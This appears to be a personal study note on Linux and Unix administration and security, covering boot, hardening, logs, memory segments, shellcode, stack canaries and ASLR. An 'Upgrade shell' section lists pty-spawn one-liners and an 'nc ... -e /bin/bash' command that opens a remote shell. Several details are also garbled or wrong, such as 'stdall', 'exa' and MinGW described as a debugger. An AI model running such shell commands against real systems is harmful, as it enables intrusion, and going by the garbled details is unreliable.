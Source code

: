 Linux is a open source operation system.

Linux distribution 
	Ubuntu 
		Based on Debian Linux
	Fedora 
		Based on Redhat Linux

Unix system boot 
	-	First boot loader is executed in order to prepare the system to begin executing the Unix kernel code
	-	Kernel initialization and execution 
	-	Initial processes (init)
	-	Init run system start-up scripts
	
[[SSH]]
Is the most common way to interact with a linux with remote command tools 
[[SSH#^134d5d]]

The key elements of Unix
	-	Kernel : Memory resident part of the operating system, is the most important part of the Unix or any OS without kernel the OS does not function. It responsible for instructions to hardware and software. Kernel is loaded into memory at boot up. This allows faster interaction between all components. It must have a dedicated space in memory to reside without shifting. 
	-	Shell : The portion of the operating system with which users and process interact directly, Shell is the command line interpreter that uses to run programs on the computer, it provides user with interface to the system. 
	-	Hardware : Collection of components which house our data and provide means to communicate 
	
Services
	Services are started in one of four ways, at boot, by inetd/xinetd, Cron and command-line. 
	-	Init processes is started at boot, it tells the system what must be running until shutdown.
	-	Inted starts network services when there is a request for them. Xinetd is the extender of inted which allows the system to perform security checks, like limit hosts that can connect, prevent DOS attacks, etc. 
	-	Cron is similar to schedule task in windows [[Windows#^schedule]]
	
	
Security 
 The process to take to protect the OS. 
 -	Protect OS Binaries in /user, Typically the binaries that the attacker repaces are OS programs in the /user/bin and /usr/sbin directories, so protecting the /user file system is important. 
 -	Stop creating or bringing unauthorized set-UID and set-GID programs on the machine. 
 -	Raise alert if new or unexpected SUID/SGID programs appear. 
 -	Unix have two classes of users: normal who can only manipulate their own data, and superuser who can do anything to any object on the system. Unix comes with number of accounts that are associated with particular application on the system, it important to disable the accounts if the service or app is not used. 
 -	Passwd file contains the permissions and home directory. 
 -	Shadow is were the encrypted password is stored 
 -	Securing boot loader with password. (requires physical access to machine if rebooted)
 -	Tcpwrappers, all connection must pass thru a set of rules before being allowed to connect to a service. 
 -	Service should be deleted if not needed, even if they are disabled, they should still be kept up to date. 
	
Security enhancement 
	-	Bastille Linux will explain the issue and optionally fix them. The perl script inspects the system for common security mistakes. with each one, Bastille explains what the issue is, why it should be fixed and what side effects the fix might have. 
	-	[[snort]]
	-	SELinux enhance the default discretionary access control security of Unix system with the inclusion and management of a mandatory access control security effort. It allows administrators the ability to control all interactions of software on the system. 
	-	AppArmor is interchangeable with SELinux, it is seens as an easier alternative. 
	
Log
	-	UTMP log keeps tracks of users currently logged into the system.
	-	WTMP log records user logon events.
	-	Lastlog recoards users most recent login information.
	-	SULOG is used to log the use of the switch user command (su).
	-	SYSLOG record major events that take place on the system. including attempt to use su and failed login attempts.  Syslog.conf contains information on logs and location of the logs on the system. 
	
Syslog
	Accept messages over the network from any host that is able to reach the server. that means an attackers can continuously send a large volume of messages at the syslog until it either overwhelmed and cannot log any messages or filling up the disk. 
	Syslog-NG is a replacemtn for the traditional syslog it allows the the ability to filter packages and the support for windows. 
	
[[Patch management]]
	-	Apt is DEbians patching tool, allows for automated patching on Debian based Unix system. 
	-	yum is the smart software installation too for centos and other Linux distributions. when asked to install or upgrade a package, yum knows how to identify and install any supporting packages. for example , if you install a new spell checking program, yum would know how to find and install the needed dictionary. Before yum, the administrator was often given an error message about missing dictionary that didn't event list what package contained the needed file. 
	
	
	
	

	

Memory 
	Physical memory; [[RAM]]
	processor registers look as hard-coded variables. The fastest for the processor to access. 
	
	Processor Cache is used by the CPU to quickly access instructions and data from memory  Consists of L caches. The closer you get to L1 the smaller the cache is, but also faster to fetch. 
	
	Paging is performed when the system runs out of memory. The system will copy pages not recently accessed to the hard disk in a area set up as swap space. There by freeing up resources. 
	Paging is the process of allowing indirect memory mapping. Linear addressing is mapped into fixed sized pages, most commonly 4KB, Pages mapped into page tables with up to 1024 entries. 
	Object files.
	
	When high-level programming language such as C or C++ is compiled into object code. This is the representation of the program in binary machine code format. Object file can consists of multiple components. During runtime multiple segments are mapped in memory the prim segments let us walk through each one of the segments so we may further lay a foundation. 
	
	Stack segment short finite operations with predefined buffer sizes rightfully belong on the stack. 
	
	LIFO (Last in, First out)
	
	cdecl caller paces parameters, the called function from right to left and the caller tears down the stack
	
	stdall, Parameters placed by caller from right to left and the called function is responsible for tearing down the stack
	
	GNU Debugger 
		that run on UNIX OS, will attach to a process
		Similar tool for windows is called MinGW 
		
Syntax
	AT%T syntax
		Source, then destination, eg. mov $4,%eax would copy value 4 into eax. 
		last character in operands tell the size b = byte, w = word, l = long
	Intel syntax 
		Destination, then source
		
	Linkers & Loader
		Linker link function name to actual location.
		Loader load a program from storage to memory.
		
		objdump used to disassemble object files. 
		
		readelf, display ELF object file information
		
	Dynamic memory 
		Heap performing large memory allocation to hold user data or run rick content will utilize heap. Opening multiple Word documents would find the data on the heap. The heap is designed to border a large unused memory segment to allow it to grow without interfering with other memory segments . 
		Once a program is loaded into memory, EIP holds the address for the first instruction in the code segment to start the program, also known as the program entry point. The code segment is often loaded at lower memory addresses than other segments. The data segment stores global and static variables used  by the program. With some implementations you will see other segments loaded that could potentially divide up the types of data in the data segment. The BSS segment stores uninitialized variables that may not be needed by the program, or that will remain uninitialized until they are referenced. 
		Following the BSS segment is where the heap segment begins for example a web browser need to load an image on a page. memory must be allocated on the heap at this point in order to store the image in memory. The heap grows from lower memory addressing towards the stack segment. starting at a much higher memory address.  ^Memory


Shellcode 
It primarily used to spawn a shell. Shellcode is usually written in assembly and then assembled into machine code by tools such as netwide assembler. Nowadays it used to thing under the right of the program being compromised. A common usage of shellcode is to bind a shell listening port on the system, add user, dll injection. 
null bytes must not be part of the shell code, because if function hit a null byte it will be translated to a string terminator, causing the shell code to fail. ^Shellcode


Smashing the stack 
4 byte value before the return pointer. UNIX = canary, win Security cookie. 

Terminator canary
Random Canary
Null Canary 

Linux Address space layout randomization (ASLR) 
The primary objective of ASLR and other compile-time controls is to protect programs from being exploited by attackers. one method is to make eligible pages of memory non-writable or non-executable. 
tool: Idd List dynamic dependencies 
Ret to ESP 
	jmp/call esp
ret to exa
	jmp/call exa
ret to ret
	return repeatedly down the stack
ret to ptr
	registers hold addresses on the stack we can control 
	
Upgrade shell : 
	python3 -c "import pty; pty.spawn('/bin/bash')" (check what version of python is installed or install python)
	python -c "import pty; pty.spawn('/bin/bash')"
	nc @IP @Port -e /bin/bash
	
 [[Privilege escalation#^ebeddb]]
		
### Logs 
Linux uses Syslog itself is the protocol used to transport messages from network devices to a server that logs them. The log files on a syslog server are the main source of information about the operation and performance of network devices and other resources and are frequently used to identify and debug issues.


### command 
using & at the end of the command allow you to execute additional commands. 
fx python -m SimpleHTTPServer 8000 &

ps -ef | grep <pid>
	You can find the pid value next to the suspicious connection under the Process column. Use that pid to identify the process with ps -ef
	
### cheatsheet 
	https://wiki.sans.blue/Tools/pdfs/LinuxCLI101.pdf
	https://wiki.sans.blue/Tools/pdfs/LinuxCLI.pdf
	https://digital-forensics.sans.org/media/linux-shell-survival-guide.pdf?msc=Cheat+Sheet+Blog
	https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blta6a2ae64ec0ed535/5eb08aaeead3926127b4df44/SMB-Access-from-Linux.pdf
	https://digital-forensics.sans.org/media/remnux-malware-analysis-tips.pdf?msc=Cheat+Sheet+Blog